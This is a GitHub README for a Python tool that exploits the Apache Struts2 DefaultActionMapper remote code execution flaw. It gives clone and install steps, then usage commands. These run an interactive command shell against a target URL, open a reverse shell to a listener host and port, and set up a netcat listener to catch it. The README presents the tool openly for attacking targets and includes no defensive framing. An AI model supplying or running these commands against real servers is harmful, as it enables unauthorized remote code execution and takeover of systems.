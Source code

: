 <h1 align="center">
<br>⚔️ Fucktruts2 ⚔️
</h1>

<!-- ABOUT THE PROJECT -->
## 📚 About The Project


   fucktrusts2 is a python script for exploit a Struts2 DefaultActionMapper RCE.
   
![image](https://user-images.githubusercontent.com/80011252/199061368-838631c2-0751-4433-9696-b0d6d6ce0166.png)

### 🛠️ Installation


1. Clone the repo
   ```sh
   git clone https://github.com/scarmandef/fucktrusts2.git
   ```
2. Install dependencies
   ```sh
   pip3 install -r requirements.txt
   ```
3. Run the script
   ```py
   python3 main.py
   ```

### 🖥️ Usage


1. Run the Script
   ```sh
   python3 main.py --help
    ```
3. Interactive Shell
   ```py
   python3 main.py -t https://www.target.com/index.action -c | --cmd
   ```
4. Reverse Shell
   ```py
   python3 main.py -t https://www.target.com/index.action --lhost 127.0.0.1 --port 443
   
   listen with nc
   
   nc -nlvp 443
   
   
   ```

Credits for ninj4c0d3r and ShellEvil tool

